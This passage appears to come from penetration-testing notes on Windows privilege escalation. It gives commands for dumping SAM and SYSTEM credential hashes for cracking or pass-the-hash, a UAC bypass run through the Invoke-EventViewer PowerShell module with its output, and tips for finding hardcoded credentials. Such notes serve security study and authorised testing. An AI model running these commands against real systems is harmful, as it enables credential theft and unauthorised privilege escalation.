 ```shell
impacket-secretsdump -sam SAM -system SYSTEM LOCAL
```

or

```shell
samdump2 SYSTEM SAM
```

This will give us a list of userame:hash that can be cracked using hashcat's NTLM cracking or used for a Pass The Hash attack. Other ways to perform a SAM and SYSTEM credential dumping are explained [here](https://juggernaut-sec.com/dumping-credentials-sam-file-hashes/). Many scenarios about dumping SAM ad SYSTEM can be found [here](https://www.hackingarticles.in/credential-dumping-sam/).

## UAC Bypass
---

Due to unsafe .Net Deserialization we can exploit the system using [UAC Bypass](https://github.com/CsEnox/EventViewer-UACBypass).

```powershell
PS C:\Windows\Tasks> Import-Module .\Invoke-EventViewer.ps1

PS C:\Windows\Tasks> Invoke-EventViewer 
[-] Usage: Invoke-EventViewer commandhere
Example: Invoke-EventViewer cmd.exe

PS C:\Windows\Tasks> Invoke-EventViewer cmd.exe
[+] Running
[1] Crafting Payload
[2] Writing Payload
[+] EventViewer Folder exists
[3] Finally, invoking eventvwr
```

### Additional Tips for Windows PE

Always check installed programs under `C:\Program Files(x86)` or under folders as `Downloads` or `Documents`. We can find exploitable programs (search the program name with searchsploit) or interesting files like Keypass vaults or hashed credentials to be cracked. Additioally, if we find some non-standard executable program that requires some sort of credentials for it, just do a `strings fileame.exe` because the credentials may be hardcoded into it.